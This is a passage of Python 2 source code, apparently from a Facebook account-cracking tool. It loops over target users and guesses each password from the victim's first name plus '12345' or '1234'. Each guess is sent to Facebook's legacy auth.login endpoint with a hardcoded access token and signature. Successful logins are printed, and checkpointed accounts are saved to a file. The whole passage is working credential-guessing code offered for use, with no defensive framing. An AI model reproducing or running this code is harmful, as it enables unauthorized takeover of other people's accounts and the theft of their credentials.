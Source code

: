 							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = b['first_name'] + '12345'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass3 + ' 👽 ' + b['name']

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;36;40m[After1Day] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass3 + ' 👽 ' + b['name']

									cek = open("out/CP.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass4)

								else:

									pass4 = b['first_name'] + '1234'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass4 + ' 👽 ' + b['name']

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;36;40m[After1Day] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass4 + ' 👽 ' + b['name']

											cek = open("out/CP.txt", "a")

											cek.write(user+"|"+pass4+"\n")
